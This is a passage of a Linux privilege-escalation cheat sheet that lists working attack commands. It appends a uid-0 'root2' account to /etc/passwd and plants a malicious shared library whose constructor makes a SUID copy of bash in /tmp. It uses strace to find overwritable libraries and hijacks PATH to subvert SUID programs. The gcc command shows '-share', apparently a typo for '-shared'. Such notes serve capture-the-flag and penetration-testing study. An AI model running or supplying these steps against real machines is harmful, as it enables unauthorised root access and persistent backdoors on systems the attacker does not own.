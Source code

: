 Get this output and use

Add the new user to passwd.orig
```
echo "root2:<openssl(your_password)>:0:0:root:/root:/bin/bash" >> passwd.orig
```

Copy your new passwd file:
```
cp passwd.orig /etc/passwd
```

Now you got root2 access!
```
su root2
```
##### SO Injection

Try to run the program with strace (local):
```
strace /that/program 2>&1 | grep -i  -E "open|access|no such file"
```
Then, try to find files that you can overwrite.

your file in c, for example, library.c:
```c
# include <stdio.h>
# include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
  system("cp /bin/bash /tmp/bashroot; chmod +s /tmp/bashroot");
}
```

Compile it:
```
gcc -fPIC -share -o /path/to/library/library.so library.c
```

Run that suid file and then go to /tmp and access with:
```
./bashroot -p
```

##### Environment Variables

###### No full path service

Let's exploit $PATH!
Check if the program uses a binary that is not been executed via full path.
Then, let's change the PATH

```
export PATH=/tmp:$PATH
```
Check your PATH env!
